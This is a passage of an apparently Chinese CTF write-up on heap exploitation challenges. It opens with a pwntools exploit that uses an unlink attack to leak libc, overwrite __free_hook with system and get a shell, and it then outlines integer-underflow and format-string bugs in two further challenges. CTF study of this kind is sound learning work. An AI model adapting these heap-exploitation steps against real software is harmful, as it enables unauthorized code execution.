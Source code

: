 ```python
debug()
free(0)

add(7,p64(0)+p64(0x21)+p64(ptr-0x18)+p64(ptr-0x10))
free(1)
pause()
show(5)

leak = leak_address()
info_addr("leak",leak)
#debug()
libcbase = leak - 88 - 0x10 - libc.sym['__malloc_hook']
info_addr("libcbase",libcbase)
system = libcbase + libc.sym['system']
free_hook = libcbase + libc.sym['__free_hook']
pl = p64(0)*3 + p64(free_hook)
edit(0,pl)
edit(0,p64(system)+b'\n')
free(2)

p.interactive()
```
本地：
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711233424658-1315642592.png)

---

慢慢调试分析，总算是弄明白了这个堆的布局了。。。

## zctf2016_note2 （待补）
[题目](https://buuoj.cn/challenges#zctf2016_note2)

漏洞点：
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240712220511158-841502660.png)

i是unsigned int，所以a2传0的话，a2-1=-1，转为无符号就是0xFFFFFFFF，就能够堆溢出了。
但是由于malloc(0)，所以实际上会申请0x20的空间。(至少要0x10用户段和0x10的header)





## axb_2019_heap

https://buuoj.cn/challenges#axb_2019_heap



分析：主要是要想到unlink。。。



开始的banner那儿有一个格式化字符串漏洞，用来

**泄露Libc和程序基地址**
